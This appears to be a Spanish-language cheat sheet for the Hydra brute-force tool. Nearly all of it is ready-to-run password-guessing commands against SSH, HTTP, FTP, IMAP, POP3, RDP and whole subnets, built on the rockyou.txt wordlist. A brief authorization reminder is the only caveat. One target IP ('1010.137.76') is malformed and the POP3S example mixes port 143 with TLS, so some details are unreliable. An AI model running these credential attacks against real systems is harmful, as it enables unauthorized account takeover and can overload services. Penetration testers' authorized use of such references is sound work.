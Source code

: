 # Hydra Cheatsheet Profesional

## Descripción

**Hydra** es una herramienta extremadamente rápida y flexible para realizar ataques de fuerza bruta a diversos servicios de red. Permite atacar una variedad de protocolos y servicios como FTP, SSH, HTTP, IMAP, entre otros, utilizando listas de usuarios y contraseñas.

## Uso Básico

La estructura básica de un comando de **Hydra** es:

```bash
hydra [opciones] [servicio]://[host]
```

El archivo `rockyou.txt` es una de las listas de contraseñas más conocidas y utilizadas en pruebas de penetración, especialmente en ataques de fuerza bruta. Si deseas usar **Hydra** con esta lista de contraseñas, simplemente reemplaza la referencia en los comandos. Aquí tienes los comandos ajustados:

### 1. **Atacar el puerto 22 (SSH)**

```bash
hydra -L userlist.txt -P /usr/share/wordlists/rockyou.txt ssh://pagina.ejemplo.com:22 -o resultados_ssh.txt
```

### 2. **Atacar el puerto 80 (HTTP)**

Para servicios HTTP, como un formulario de inicio de sesión:

```bash
hydra -L userlist.txt -P /usr/share/wordlists/rockyou.txt http-get://pagina.ejemplo.com -o resultados_http.txt
```

### 3. **Atacar el puerto 443 (HTTPS)**

Para el puerto HTTPS:

```bash
hydra -L userlist.txt -P /usr/share/wordlists/rockyou.txt https-get://pagina.ejemplo.com -o resultados_https.txt
```

### 4. **Resumen de los comandos**

Aquí está el resumen completo para atacar los tres puertos utilizando `rockyou.txt`:

```bash
# Para SSH (puerto 22)
hydra -L userlist.txt -P /usr/share/wordlists/rockyou.txt ssh://pagina.ejemplo.com:22 -o resultados_ssh.txt

# Para HTTP (puerto 80)
hydra -L userlist.txt -P /usr/share/wordlists/rockyou.txt http-get://pagina.ejemplo.com -o resultados_http.txt

# Para HTTPS (puerto 443)
hydra -L userlist.txt -P /usr/share/wordlists/rockyou.txt https-get://pagina.ejemplo.com -o resultados_https.txt
```

### Notas importantes:

- **Asegúrate de tener permiso**: Al realizar pruebas de penetración, siempre debes tener la autorización adecuada. Realizar pruebas en sistemas sin permiso es ilegal.
- **Rendimiento**: Usar `rockyou.txt` puede resultar en un ataque que tome más tiempo debido a la longitud de la lista, especialmente si hay muchas combinaciones.
- **Optimización**: Considera usar opciones adicionales en Hydra para mejorar el rendimiento, como `-t` para establecer el número de tareas concurrentes.

## Opciones Comunes

| Opción        | Descripción                                             
|---------------|---------------------------------------------------------------------|
| `-l`          | Define un solo nombre de usuario.                                   |
| `-L`          | Usa una lista de nombres de usuarios.                               |
| `-p`          | Define una sola contraseña.                                         |
| `-P`          | Usa una lista de contraseñas.                                       |
| `-M`          | Especifica una lista de múltiples objetivos.                        |
| `-s`          | Especifica un puerto personalizado.                                 |
| `-t`          | Define el número de hilos (máximo de conexiones paralelas).         |
| `-o`          | Especifica el nombre del archivo donde se guardarán los resultados. |
| `-f`          | Detenerse cuando se encuentre la primera contraseña válida.         |
| `-6`          | Habilitar ataques sobre IPv6.                                       |
| `-C`          | Especifica un archivo con combinaciones `usuario:contraseña`.       |

## Protocolos Soportados

**Hydra** puede atacar una variedad de servicios como:

- `ftp`
- `ssh`
- `telnet`
- `smtp`
- `http-get` / `http-post`
- `imap`
- `pop3`
- `smb`
- `vnc`
- `ldap`
- `rdp`
- `mssql`
- `mysql`
- `postgres`
- `snmp`
- `redis`
- `sip`
- Y muchos más.

## Ejemplos Comunes

### 1. **Ataque FTP con un usuario y lista de contraseñas**

```bash
hydra -l user -P passlist.txt ftp://192.168.0.1 -o resultados_ftp.txt
```

### 2. **Ataque IMAP con lista de usuarios y contraseña predeterminada**

```bash
hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN -o resultados_imap.txt
```

### 3. **Ataque POP3 seguro con archivo de combinaciones de usuario:contraseña y soporte IPv6**

```bash
hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5 -o resultados_pop3.txt
```

### 4. **Escaneo de subred para FTP con un usuario y contraseña específicos**

```bash
hydra -l admin -p password ftp://[192.168.0.0/24]/ -o resultados_subred.txt
```

### 5. **Ataque SSH contra múltiples objetivos con listas de usuarios y contraseñas**

```bash
hydra -L logins.txt -P pws.txt -M targets.txt ssh -o resultados_ssh.txt
```

### 6. **Ataque HTTP POST con lista de usuarios y contraseñas**

```bash
hydra -L users.txt -P pass.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect" -t 64 -v -o resultados_http.txt
```

### 7. **Ataque HTTP GET a una página protegida con autenticación básica**

```bash
hydra -L users.txt -P pass.txt http-get://example.com/protected -o resultados_http_get.txt
```

### 8. **Fuerza bruta RDP (Escritorio Remoto)**

```bash
hydra -t 1 -V -f -L users.txt -P passlist.txt rdp://192.168.1.100 -o resultados_rdp.txt
```

### 9. **Atacando múltiples servicios a la vez**

```bash
hydra -L users.txt -P passlist.txt ftp://192.168.1.10 ssh://192.168.1.11 rdp://192.168.1.12 -o resultados_multi.txt
```

### 10. **Ataque SSH con rockyou.txt**

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 1010.137.76 ssh -o resultados_rockyou.txt
```

## Consejos Adicionales

- **Hilos y rendimiento:** Ajusta el número de hilos con `-t`. Un valor demasiado alto puede resultar en bloqueos o en la denegación del servicio en el servidor.
  
- **Detener en el primer éxito:** Usa `-f` para que Hydra se detenga después de encontrar una combinación válida de usuario y contraseña.

- **Guardar resultados:** Utiliza `-o resultado.txt` para guardar los resultados exitosos en un archivo de texto.

## Fuentes de Documentación

Para más información sobre opciones y ejemplos específicos, consulta la documentación oficial o utiliza el comando:

```bash
hydra -h
```
